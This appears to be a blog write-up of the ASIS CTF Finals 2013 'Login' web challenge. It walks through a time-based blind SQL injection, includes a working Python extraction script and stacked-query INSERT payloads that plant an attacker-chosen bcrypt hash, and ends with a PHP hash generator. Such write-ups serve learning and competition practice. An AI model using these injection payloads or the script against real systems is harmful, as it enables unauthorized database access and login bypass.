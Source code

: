 ```yaml
---
layout: post
title: "ASIS CTF Finals 2013 Login"
description: ""
category: writeup
tags: [ASIS CTF Finals 2013, web]
---
```

{% include JB/setup %}

Description

	Login
	
	Points	350		Level	1	Solves	5
	
	Description
	78.38.193.187
	
	Hint:
	$2y$10$HXDsGCYFW5ajuzYO5qcyfOygl5r27BQB5DkL5ZfgoTfPSRMhlUAnG


All you can see is a login form, it always has some SQL injection problem.

After a lot of testing, finally we find a time-based blind injection in the username.

Using
	
	1' AND BENCHMARK(5000000,MD5(0x123)) AND ''='
	
then we start to using sqlmap to deal with it, but it is too slow and show some mistakes.

One of my friend write a python script to solve it, then we find some useful infomation. There are three database:

	information_schema
	sqli_db
	test
	
Obviously, sqli_db is suspicious, let's see what it has.

	users
	
It only has a table named users.

	user_id
	user_name
	user_email
	user_password_hash
	
At the beginning, we trying to fetch some data from it, but it is empty, some time later, we fetch a string from user_password_hash.

	$2y$10$gyI0vxnE3ZncmdLNGVmwTew/aPwBZPY4cEMCRENAjN4?0l8iu9O5R6iW

Just google "$2y$10", we find it is the head of PHP blowfish hash, but it seems that there is no way to get the original value from it.

At that time, the admin give a hint on this problem:

	Hint:
	$2y$10$HXDsGCYFW5ajuzYO5qcyfOygl5r27BQB5DkL5ZfgoTfPSRMhlUAnG
	
At the same time, we find that the table users suddenly become empty. It inspire us to try INSERT.

	';insert into users values (333,'hqd','1','1@1.com');select '

And it works!

Then it is so easy, just INSERT the correct hash value of a password u know it before, there is a php script can to do this.

	';insert into users values (333,'hqd','$2y$10$YTNlM2RiNmFiODgzZGM2YuYqP7NHnuZ31TyucetPJkODqia/XH5KC','1@1.com');select '
	
	#this is the blowfish hash value of 'admin'
	
Then just login use username:hqd and password:admin, then here is the flag.

	ASIS_9689926853009CAAD5BF824863077DC9

And taste the flavor of the first blood.

f.py

{% highlight python linenos%}
from httplib import HTTPConnection

HTTPConnection._http_vsn_str = 'HTTP/1.0'

def post_payload( payload ):
	conn = HTTPConnection( '78.38.193.187' )
	conn.putrequest( 'POST', '/', skip_accept_encoding=True, skip_host=True )
	conn.putheader( 'Content-Type', 'application/x-www-form-urlencoded' )
	conn.putheader( 'Content-Length', str(len(payload)) )
	conn.endheaders( message_body=payload )
	resp = conn.getresponse()
	resp.read()

from urllib import urlencode
from time import time

def get_bool( expression ):
	start = time()
	post_payload( urlencode( dict(
		login = '',
		user_password = ' ',
		user_name = "'OR if(%s,benchmark(1500000,md5(0)),0) AND''='" % expression,
	) ) )
	end = time()
	print 'Time:', end-start
	return end-start>0.95

def get_bit( expression ):
	return '1' if get_bool( expression ) else '0'

from itertools import count

def get_string( expression ):
	result = ''
	for i in count( start=1 ):
		char = ''
		for j in range(8)[::-1]:
			print 'Byte %d, Bit %d,' % (i,j),
			bit = get_bit( 'ascii(substr(%s,%d,1))>>%d&1' % ( expression, i, j ) )
			print bit
			char += bit
		char = int( char, 2 )
		if char == 0: break
		result += chr(char)
	return result

# def get_query( expression ):
	

# print get_string( 'database()' )
print get_string( '(SELECT IFNULL(CAST(table_name AS CHAR) ,0x20) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x73716c695f6462 LIMIT 0,1)' )
# print get_string( '(SELECT IFNULL(CAST(table_name AS CHAR) ,0x20) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=\'information_shema\' LIMIT 0,1)' )
# print get_string( '(SELECT IFNULL(CAST(COLUMN_NAME AS CHAR) ,0x20) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME=\'users\' LIMIT 5,1)' )
# print get_string( '(SELECT CAST(COUNT(*) AS CHAR) FROM users)' )
# print get_string( '@@datadir' )
# print get_string( 'user()' )
# print get_string( 'version()' )


{% endhighlight %} 


a.php

{% highlight php linenos%}

<?php
// demo = $2y$10$Zjk5YzQ4ZTlhMzNlNTUzMO3Wnm1FqXmAb6/4DmyptNGoEdWGLwls.
       
function password_encrypt($password) {
  $hash_format = "$2y$10$";   // Tells PHP to use Blowfish with a "cost" of 10
  $salt_length = 22;                    // Blowfish salts should be 22-characters or more
  $salt = generate_salt($salt_length);
  $format_and_salt = $hash_format . $salt;
  $hash = crypt($password, $format_and_salt);
    return $hash;
}
 
function generate_salt($length) {
  // Not 100% unique, not 100% random, but good enough for a salt
  // MD5 returns 32 characters
  $unique_random_string = md5(uniqid(mt_rand(), true));
    // Valid characters for a salt are [a-zA-Z0-9./]
  $base64_string = base64_encode($unique_random_string);
    // But not '+' which is valid in base64 encoding
  $modified_base64_string = str_replace('+', '.', $base64_string);
    // Truncate string to the correct length
  $salt = substr($modified_base64_string, 0, $length);
    return $salt;
}
 
function password_check($password, $existing_hash) {
    // existing hash contains format and salt at start
  $hash = crypt($password, $existing_hash);
  if ($hash === $existing_hash) {
    return true;
  } else {
    return false;
  }
}

echo password_encrypt('admin');
?>

{% endhighlight %} 
